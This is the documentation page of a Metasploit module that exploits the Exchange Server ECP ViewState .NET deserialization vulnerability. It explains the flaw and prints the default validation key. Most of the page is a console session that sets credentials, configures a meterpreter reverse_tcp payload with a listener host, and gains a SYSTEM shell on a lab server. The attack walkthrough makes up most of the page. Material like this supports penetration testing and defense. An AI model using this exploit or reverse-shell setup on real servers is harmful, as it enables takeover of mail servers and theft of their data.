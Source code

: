 ## Vulnerable Application

This module exploits a .NET serialization vulnerability in the Exchange Control
Panel (ECP) web page. The vulnerability is due to Microsoft Exchange Server not
randomizing the keys on a per-installation basis resulting in them using the
same validationKey and decryptionKey values. With knowledge of these, values an
attacker can craft a special viewstate to cause an OS command to be executed by
NT_AUTHORITY\SYSTEM using .NET deserialization.

The default ViewState validation key is:
`cb2721abdaf8e9dc516d621d8b8bf13a2c9e8689a25303bf`.

This module requires the user to authenticate to Exchange. At a minimum the user
must be a member of the `Domain Users` group and have a mailbox configured on
the Exchange server.

The crafted ViewState must be submitted to the server in a GET request (POST
requests will not work) which introduces a size restriction on the contents. Due
to this, OS commands are limited to a length of approximately 450 which accounts
for the overhead of the serialization data. The OS command must also be XML
encoded which increases the size as well. The .NET deserialization used is the
"TextFormattingRunProperties" chain from the [ysoserial.net][1] project.

## Verification Steps

Example steps in this format (is also in the PR):

1. Install the application
1. Start msfconsole
1. Do: `use exploit/windows/http/exchange_ecp_viewstate`
1. Set the `RHOSTS`, `USERNAME` and `PASSWORD` options
1. Do: `run`
1. You should get a shell.

### Version and OS

For example:

    msf5 > use exploit/windows/http/exchange_ecp_viewstate
    msf5 exploit(windows/http/exchange_ecp_viewstate) > set RHOSTS 192.168.159.129
    RHOSTS => 192.168.159.129
    msf5 exploit(windows/http/exchange_ecp_viewstate) > set USERNAME msflab.local\\jdoe
    USERNAME => msflab.local\jdoe
    msf5 exploit(windows/http/exchange_ecp_viewstate) > set PASSWORD Password1
    PASSWORD => Password1
    msf5 exploit(windows/http/exchange_ecp_viewstate) > set TARGET 1
    TARGET => 1
    msf5 exploit(windows/http/exchange_ecp_viewstate) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
    PAYLOAD => windows/x64/meterpreter/reverse_tcp
    msf5 exploit(windows/http/exchange_ecp_viewstate) > set LHOST 192.168.159.128
    LHOST => 192.168.159.128
    msf5 exploit(windows/http/exchange_ecp_viewstate) > exploit

    [*] Started reverse TCP handler on 192.168.159.128:4444
    [*] Command Stager progress -   3.61% done (449/12424 bytes)
    [*] Command Stager progress -   7.23% done (898/12424 bytes)
    [*] Command Stager progress -  10.84% done (1347/12424 bytes)
    [*] Command Stager progress -  14.46% done (1796/12424 bytes)
    [*] Command Stager progress -  18.07% done (2245/12424 bytes)
    [*] Command Stager progress -  21.68% done (2694/12424 bytes)
    [*] Command Stager progress -  25.30% done (3143/12424 bytes)
    [*] Command Stager progress -  28.91% done (3592/12424 bytes)
    [*] Command Stager progress -  32.53% done (4041/12424 bytes)
    [*] Command Stager progress -  36.14% done (4490/12424 bytes)
    [*] Command Stager progress -  39.75% done (4939/12424 bytes)
    [*] Command Stager progress -  43.37% done (5388/12424 bytes)
    [*] Command Stager progress -  46.98% done (5837/12424 bytes)
    [*] Command Stager progress -  50.60% done (6286/12424 bytes)
    [*] Command Stager progress -  54.21% done (6735/12424 bytes)
    [*] Command Stager progress -  57.82% done (7184/12424 bytes)
    [*] Command Stager progress -  61.44% done (7633/12424 bytes)
    [*] Command Stager progress -  65.05% done (8082/12424 bytes)
    [*] Command Stager progress -  68.67% done (8531/12424 bytes)
    [*] Command Stager progress -  72.28% done (8980/12424 bytes)
    [*] Command Stager progress -  75.89% done (9429/12424 bytes)
    [*] Command Stager progress -  79.51% done (9878/12424 bytes)
    [*] Command Stager progress -  82.74% done (10279/12424 bytes)
    [*] Command Stager progress -  86.15% done (10703/12424 bytes)
    [*] Command Stager progress -  89.43% done (11111/12424 bytes)
    [*] Command Stager progress -  92.91% done (11543/12424 bytes)
    [*] Command Stager progress -  96.28% done (11962/12424 bytes)
    [*] Sending stage (206403 bytes) to 192.168.159.129
    [*] Command Stager progress -  99.84% done (12404/12424 bytes)
    [*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.129:17626) at 2020-03-02 10:40:52 -0500
    [*] Command Stager progress - 100.00% done (12424/12424 bytes)

    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
    meterpreter > sysinfo
    Computer        : EXCHANGE
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : MSFLAB
    Logged On Users : 9
    Meterpreter     : x64/windows
    meterpreter >

[1]: https://github.com/pwntester/ysoserial.net
